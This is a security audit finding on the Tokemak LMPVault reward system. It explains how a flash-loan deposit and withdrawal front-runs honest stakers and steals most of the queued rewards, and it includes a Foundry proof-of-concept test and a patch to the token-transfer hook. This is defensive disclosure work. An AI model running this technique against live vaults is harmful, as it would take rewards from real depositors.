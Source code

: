 Long Satin Sealion

high

# Flashloan attack against Rewarder - leads to the stealing of rewards.
## Summary
An attacker can launch a flash loan attack to deposit a huge amount of WETH to the LMPVault and immediately claim rewards from Rewarder and withdraw from the vault.

## Vulnerability Detail

The Synthetix-Rewarder model is broken because the checkpoints are not set correctly for the Rewarder when depositing to LMPVault. As this vulnerability occurs,  **the following attack scenario is possible.**

1. Bob and Alice deposited to LMP vault 1000 assets (2000 in total is at LMPvault)
2. Admin adds 1000 Tokes to Rewarder. 
3. Time passes (10000 blocks), and rewards are ready for claim. (In this situation, Bob and Alice should get 500 Tokes each)
4. The attacker sees that Bob wants to claim rewards; at this moment the attacker front-runs him with a flash loan attack.
5. In one transaction, the attacker deposits a huge amount of assets and withdraws immediately, which also allows him to claim rewards. 
6. The attacker gets a huge amount of rewards while Bob and Alice just get a very small slice.

I have devised a PoC from the previous scenario, which can be added to LMPVault-Withdraw.t.sol
### PoC
```Solidity
    function test_flash_loan_attack_for_rewards() external {
        //@audit-issue another problem with getRewards
        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");
        address attacker = makeAddr("attacker");
        _asset.mint(attacker, 100 ether);
        _asset.mint(bob, 1000);
        _asset.mint(alice, 1000);

        vm.startPrank(bob);
        _asset.approve(address(_lmpVault), 1000);
        _lmpVault.deposit(1000, bob);
        vm.stopPrank();

        vm.startPrank(alice);
        _asset.approve(address(_lmpVault), 1000);
        _lmpVault.deposit(1000, alice);
        vm.stopPrank();

        _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
        _lmpVault.rewarder().addToWhitelist(address(this));
        _lmpVault.rewarder().setTokeLockDuration(0); // TO prevent staking, It is in contract but not in interface so I added it there to IBaseRewarder.sol
        _toke.mint(address(this), 1000e18);
        _toke.approve(address(_lmpVault.rewarder()), 1000e18);
        _lmpVault.rewarder().queueNewRewards(1000e18);

        assert(_lmpVault.totalSupply() == 2000);

        vm.roll(block.number + 10_000);

        // Bob wanted to claim rewards so he should get 500 Tokes and also Alice but the attacker executed a frontrun attack with flashloan.

        vm.startPrank(attacker);
        _asset.approve(address(_lmpVault), 100 ether);
        _lmpVault.deposit(100 ether, attacker);
        _lmpVault.withdraw(100 ether, attacker, attacker);
        vm.stopPrank();
        assert(_toke.balanceOf(attacker) > 0);
        vm.startPrank(alice);
        _lmpVault.withdraw(1000, alice, alice);
        vm.stopPrank();
        vm.startPrank(bob);
        _lmpVault.withdraw(1000, bob, bob);
        vm.stopPrank();
    }
```

This should not be possible since the user should have deposited assets for almost the **whole duration of rewards** in the rewarder based on the **Synthetix model**. In this case, an attacker can deposit **whenever he wants and still have a claim for a portion of rewards based just on the number of his shares**. But he does not provide any liquidity for LMPVault. **He is simply stealing rewards.**

It is important to highlight that the flash loan is a consequential vector but not the main issue here. The main problem is that the user can claim rewards immediately when he deposits into the vault.

## Impact
The Synthetix rewarder model is broken allowing the attacker to steal rewards from users who should have the right to claim rewards based on the liquidity they provide for the whole reward period.

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L854-L864 - updateRewards function which is in (rewarder.Stake()) is called after the user has proper balance.

## Tool used

Manual Review

## Recommendation
The issue lies in the updateReward function for rewarder that is called after the user obtains shares in LMPVault. In the original Synthetix rewarder, the updateReward method is called before the deposit. 

The possible fix which can resolve the issue can be implemented in the _beforeTokenTransfer() function in LMPVault.sol.
```diff
	function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
		// Nothing to do really do here
		if (from == to) {
			return;
		}
               
		// If this isn't a mint of new tokens, then they are being transferred
		// from someone who is "staked" in the rewarder. Make sure they stop earning
		// When they transfer those funds
		if (from != address(0)) {
			rewarder.withdraw(from, amount, true); 
		}
+               if (from == address(0){ // update the checkpoint before the minting
+	                 rewarder.withdraw(to, 0, false);
+                 }

	// Make sure the destination wallet total share balance doesn't go above the
		// current perWalletLimit
		if (balanceOf(to) + amount > perWalletLimit) {
			revert OverWalletLimit(to); //@audit-ok seems to be okay
		}
	}
```
